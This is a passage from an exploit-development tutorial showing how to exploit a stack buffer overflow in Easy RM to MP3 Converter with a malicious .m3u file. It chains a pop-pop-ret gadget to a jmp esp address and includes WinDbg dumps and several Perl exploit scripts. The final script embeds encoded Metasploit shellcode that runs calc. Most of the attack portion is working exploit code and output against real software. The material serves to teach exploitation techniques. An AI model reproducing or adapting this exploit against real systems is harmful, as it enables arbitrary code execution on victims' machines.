

As explained above, In the Easy RM to MP3 example, we have been able to tweak our buffer so ESP pointed directly at our shellcode. What if there is not a single register that points to the shellcode ?
Well, in this case, an address pointing to the shellcode may be on the stack. If you dump esp, look at the first addresses. If one of these addresses points to your shellcode (or a buffer you control), then you can find a pop ret or pop pop ret (nothing to do with SEH based exploits here) to
– take addresses from the stack (and skip them)
– jump to the address which should bring you to the shellcode.
The pop ret technique obviously is only usabled when ESP+offset already contains an address which points to the shellcode… So dump esp, see if one of the first addresses points to the shellcode, and put a reference to pop ret (or pop pop ret or pop pop pop ret) into EIP. This will take some address from the stack (one address for each pop) and will then put the next address into EIP. If that one points to the shellcode, then you win.
There is a second use for pop ret : what if you control EIP, no register points to the shellcode, but your shellcode can be found at ESP+8. In that case, you can put a pop pop ret into EIP, which will jump to ESP+8. If you put a pointer to jmp esp at that location, then it will jump to the shellcode that sits right after the jmp esp pointer.
Let’s build a test case. We know that we need 26094 bytes before overwriting EIP, and that we need 4 more bytes before we are at the stack address where ESP points at (in my case, this is 0x000ff730).
We will simulate that at ESP+8, we have an address that points to the shellcode. (in fact, we’ll just put the shellcode behind it – again, this is just a test case).
26094 A’s, 4 XXXX’s (to end up where ESP points at), then a break, 7 NOP’s, a break, and more NOP’s. Let’s pretend the shellcode begins at the second break. The goal is to make a jump over the first break, right to the second break (which is at ESP+8 bytes = 0x000ff738).
my $file= "test1.m3u";
my $junk= "A" x 26094;
my $eip = "BBBB"; #overwrite EIP
my $prependesp = "XXXX"; #add 4 bytes so ESP points at beginning of shellcode bytes
my $shellcode = "\xcc"; #first break
$shellcode = $shellcode . "\x90" x 7; #add 7 more bytes
$shellcode = $shellcode . "\xcc"; #second break
$shellcode = $shellcode . "\x90" x 500; #real shellcode
open($FILE,">$file");
print $FILE $junk.$eip.$prependesp.$shellcode;
close($FILE);
print "m3u File Created successfully\n";
Let’s look at the stack :
Application crashed because of the buffer overflow. We’ve overwritten EIP with “BBBB”. ESP points at 000ff730 (which starts with the first break), then 7 NOP’s, and then we see the second break, which really is the begin of our shellcode (and sits at address 0x000ff738).
eax=00000001 ebx=00104a58 ecx=7c91005d edx=00000040 esi=77c5fce0 edi=000067fa
eip=42424242 esp=000ff730 ebp=00344200 iopl=0 nv up ei pl nz na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000206
Missing image name, possible paged-out or corrupt data.
Missing image name, possible paged-out or corrupt data.
Missing image name, possible paged-out or corrupt data.
+0x42424231:
42424242 ?? ???
0:000> d esp
000ff730 cc 90 90 90 90 90 90 90-cc 90 90 90 90 90 90 90 ................
The goal is to get the value of ESP+8 into EIP (and to craft this value so it jumps to the shellcode). We’ll use the pop ret technique + address of jmp esp to accomplish this.
One POP instruction will take 4 bytes off the top of the stack. So the stack pointer would then point at 000ff734. Running another pop instruction would take 4 more bytes off the top of the stack. ESP would then point to 000ff738. When a “ret” instruction is performed, the value at the current address of ESP is put in EIP. So if the value at 000ff738 contains the address of a jmp esp instruction, then that is what EIP would do. The buffer after 000ff738 must then contains our shellcode.
We need to find the pop,pop,ret instruction sequence somewhere, and overwrite EIP with the address of the first part of the instruction sequence, and we must set ESP+8 to the address of jmp esp, followed by the shellcode itself.
First of all, we need to know the opcode for pop pop ret. We’ll use the assemble functionality in windbg to get the opcodes :
0:000> u 7c90120e
ntdll!DbgBreakPoint:
7c90120e 58 pop eax
7c90120f 5d pop ebp
7c901210 c3 ret
so the pop pop ret opcode is 0x58,0x5d,0xc3
Of course, you can pop to other registers as well. These are some other available pop opcodes:

Now we need to find this sequence in one of the available dll’s. In part 1 of the tutorial we have spoken about application dll’s versus OS dll’s. I guess it’s recommended to use application dll’s because that would increase the chances on building a reliable exploit across windows platforms/versions… But you still need to make sure the dll’s use the same base addresses every time. Sometimes, the dll’s get rebased and in that scenario it could be better to use one of the os dll’s (user32.dll or kernel32.dll for example)
Open Easy RM to MP3 (don’t open a file or anything) and then attach windbg to the running process.
Windbg will show the loaded modules, both OS modules and application modules. (Look at the top of the windbg output, and find the lines that start with ModLoad).
These are a couple of application dll’s
ModLoad: 00ce0000 00d7f000 C:\Program Files\Easy RM to MP3 Converter\MSRMfilter01.dll
ModLoad: 01a90000 01b01000 C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec00.dll
ModLoad: 00c80000 00c87000 C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec01.dll
ModLoad: 01b10000 01fdd000 C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll
You can show the image base of a dll by running dumpbin.exe (from Visual Studio) with parameter /headers against the dll. This will allow you to define the lower and upper address for searches.
You should try to avoid using addresses that contain null bytes (\x00)(because it would make the exploit harder… not impossible, just harder.)
A search in MSRMCcodec00.dll gives us some results :
0:014> s 01a90000 l 01b01000 58 5d c3
01ab6a10 58 5d c3 33 c0 5d c3 55-8b ec 51 51 dd 45 08 dc X].3.].U..QQ.E..
01ab8da3 58 5d c3 8d 4d 08 83 65-08 00 51 6a 00 ff 35 6c X]..M..e..Qj..5l
01ab9d69 58 5d c3 6a 02 eb f9 6a-04 eb f5 b8 00 02 00 00 X].j...j........
Ok, we can jump to ESP+8 now. In that location we need to put the address to jmp esp (because, as explained before, the ret instruction will take the address from that location and put it in EIP. At that point, the ESP address will point to our shellcode which is located right after the jmp esp address… so what we really want at that point is a jmp esp)
From part 1 of the tutorial, we have learned that 0x01ccf23a refers to jmp esp.
Ok, let’s go back to our perl script and replace the “BBBB” (used to overwrite EIP with) with one of the 3 pop,pop,ret addresses, followed by 8 bytes (NOP) (to simulate that the shellcode is 8 bytes off from the top of the stack), then the jmp esp address, and then the shellcode.
The buffer will look like this :
[AAAAAAAAAAA...AA][0x01ab6a10][NOPNOPNOPNOPNOPNOPNOPNOP][0x01ccf23a][Shellcode]
26094 A's EIP 8 bytes offset JMP ESP
(=POPPOPRET)
The entire exploit flow will look like this :
1 : EIP is overwritten with POP POP RET (again, this example has nothing to do with SEH based exploits. We just want to get a value that is on the stack into EIP). ESP points to begin of 8byte offset from shellcode
2 : POP POP RET is executed. EIP gets overwritten with 0x01ccf23a (because that is the address that was found at ESP+0x8). ESP now points to shellcode.
3 : Since EIP is overwritten with address to jmp esp, the second jump is executed and the shellcode is launched.

We’ll simulate this with a break and some NOP’s as shellcode, so we can see if our jumps work fine.
my $file= "test1.m3u";
my $junk= "A" x 26094;
my $eip = pack('V',0x01ab6a10); #pop pop ret from MSRMfilter01.dll
my $jmpesp = pack('V',0x01ccf23a); #jmp esp
my $prependesp = "XXXX"; #add 4 bytes so ESP points at beginning of shellcode bytes
my $shellcode = "\x90" x 8; #add more bytes
$shellcode = $shellcode . $jmpesp; #address to return via pop pop ret ( = jmp esp)
$shellcode = $shellcode . "\xcc" . "\x90" x 500; #real shellcode
open($FILE,">$file");
print $FILE $junk.$eip.$prependesp.$shellcode;
close($FILE);
print "m3u File Created successfully\n";
(d08.384): Break instruction exception - code 80000003 (!!! second chance !!!)
eax=90909090 ebx=00104a58 ecx=7c91005d edx=00000040 esi=77c5fce0 edi=000067fe
eip=000ff73c esp=000ff73c ebp=90909090 iopl=0 nv up ei pl nz na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000206
Missing image name, possible paged-out or corrupt data.
Missing image name, possible paged-out or corrupt data.
Missing image name, possible paged-out or corrupt data.
+0xff72b:
000ff73c cc int 3
0:000> d esp
000ff73c cc 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90 ................
Cool. that worked. Now let’s replace the NOPs after jmp esp (ESP+8) with real shellcode (some nops to be sure + shellcode, encoded with alpha_upper) (execute calc):
my $file= "test1.m3u";
my $junk= "A" x 26094;
my $eip = pack('V',0x01ab6a10); #pop pop ret from MSRMfilter01.dll
my $jmpesp = pack('V',0x01ccf23a); #jmp esp
my $prependesp = "XXXX"; #add 4 bytes so ESP points at beginning of shellcode bytes
my $shellcode = "\x90" x 8; #add more bytes
$shellcode = $shellcode . $jmpesp; #address to return via pop pop ret ( = jmp esp)
$shellcode = $shellcode . "\x90" x 50; #real shellcode
# windows/exec - 303 bytes
# http://www.metasploit.com
# Encoder: x86/alpha_upper
# EXITFUNC=seh, CMD=calc
$shellcode = $shellcode . "\x89\xe2\xda\xc1\xd9\x72\xf4\x58\x50\x59\x49\x49\x49\x49" .
"\x43\x43\x43\x43\x43\x43\x51\x5a\x56\x54\x58\x33\x30\x56" .
"\x58\x34\x41\x50\x30\x41\x33\x48\x48\x30\x41\x30\x30\x41" .
"\x42\x41\x41\x42\x54\x41\x41\x51\x32\x41\x42\x32\x42\x42" .
"\x30\x42\x42\x58\x50\x38\x41\x43\x4a\x4a\x49\x4b\x4c\x4a" .
"\x48\x50\x44\x43\x30\x43\x30\x45\x50\x4c\x4b\x47\x35\x47" .
"\x4c\x4c\x4b\x43\x4c\x43\x35\x43\x48\x45\x51\x4a\x4f\x4c" .
"\x4b\x50\x4f\x42\x38\x4c\x4b\x51\x4f\x47\x50\x43\x31\x4a" .
"\x4b\x51\x59\x4c\x4b\x46\x54\x4c\x4b\x43\x31\x4a\x4e\x50" .
"\x31\x49\x50\x4c\x59\x4e\x4c\x4c\x44\x49\x50\x43\x44\x43" .
"\x37\x49\x51\x49\x5a\x44\x4d\x43\x31\x49\x52\x4a\x4b\x4a" .
"\x54\x47\x4b\x51\x44\x46\x44\x43\x34\x42\x55\x4b\x55\x4c" .
"\x4b\x51\x4f\x51\x34\x45\x51\x4a\x4b\x42\x46\x4c\x4b\x44" .
"\x4c\x50\x4b\x4c\x4b\x51\x4f\x45\x4c\x45\x51\x4a\x4b\x4c" .
"\x4b\x45\x4c\x4c\x4b\x45\x51\x4a\x4b\x4d\x59\x51\x4c\x47" .
"\x54\x43\x34\x48\x43\x51\x4f\x46\x51\x4b\x46\x43\x50\x50" .
"\x56\x45\x34\x4c\x4b\x47\x36\x50\x30\x4c\x4b\x51\x50\x44" .
"\x4c\x4c\x4b\x44\x30\x45\x4c\x4e\x4d\x4c\x4b\x45\x38\x43" .
"\x38\x4b\x39\x4a\x58\x4c\x43\x49\x50\x42\x4a\x50\x50\x42" .
"\x48\x4c\x30\x4d\x5a\x43\x34\x51\x4f\x45\x38\x4a\x38\x4b" .
"\x4e\x4d\x5a\x44\x4e\x46\x37\x4b\x4f\x4d\x37\x42\x43\x45" .
"\x31\x42\x4c\x42\x43\x45\x50\x41\x41";
open($FILE,">$file");
print $FILE $junk.$eip.$prependesp.$shellcode;
close($FILE);
print "m3u File Created successfully\n";
pwned !